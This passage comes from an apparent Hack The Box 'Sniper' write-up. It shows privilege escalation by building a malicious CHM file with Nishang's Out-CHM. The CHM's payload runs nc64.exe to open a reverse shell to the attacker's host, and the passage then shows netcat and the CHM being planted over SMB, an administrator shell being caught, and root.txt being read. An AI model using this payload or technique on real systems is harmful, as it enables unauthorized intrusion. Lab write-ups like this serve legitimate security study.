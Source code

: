 
    PS > Out-CHM -Payload "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.6 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
    Microsoft HTML Help Compiler 4.74.8702

    Compiling c:\Tools\nishang\doc.chm


    Compile time: 0 minutes, 0 seconds
    2       Topics
    4       Local links
    4       Internet links
    0       Graphics


    Created c:\Tools\nishang\doc.chm, 13,458 bytes
    Compression increased file by 266 bytes.



### Shell

Now I'll move the result back to my Kali VM, into the Samba share, and
then copy it over to Sniper:



    C:\Docs>copy \\10.10.14.6\share\doc.chm .
            1 file(s) copied.



I'll copy `nc64.exe` over as well:



    C:\Docs>copy \\10.10.14.6\share\nc64.exe \windows\system32\spool\drivers\color\
            1 file(s) copied.  



In less than a minute:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.151.
    Ncat: Connection from 10.10.10.151:57228.
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    sniper\administrator



And then I can grab `root.txt`:



    C:\Users\Administrator\Desktop>type root.txt
    5624caf3************************




[Beyond Root »](/htb-sniper-beyondroot.md)






